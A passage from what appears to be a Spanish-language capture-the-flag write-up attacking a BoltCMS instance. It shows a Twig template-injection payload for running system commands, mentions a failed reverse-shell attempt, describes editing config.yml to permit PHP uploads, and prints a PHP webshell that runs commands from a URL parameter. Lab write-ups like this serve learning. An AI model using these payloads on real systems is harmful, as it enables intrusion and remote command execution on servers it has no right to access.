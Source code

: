 Pero al ponernos en escucha no me llega la reverse shell y me devuelve un Gateway Time-out, por lo cual quizás existe algún tipo de firewall por detrás.

Igualmente al intentar ejecutar un comando.
```console
{{'whoami'|filter('system')}}
```

Llegué a la conclusión de que este BoltCMS no tiene un filtro llamado `system` por lo cual no podía ejecutar comando a nivel de sistema.

Pero después de comerme la cabeza un rato, me di cuenta de que podíamos subir archivos pero no podíamos subir recursos PHP.

Aún así, podemos editar el archivo `config.yml` y habilitar este tipo de archivos.
![Write-up Image](images/Screenshot_17.png)

Nos creamos la típica webshell en PHP
```console
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

Y ahora si que podemos subir el archivo.
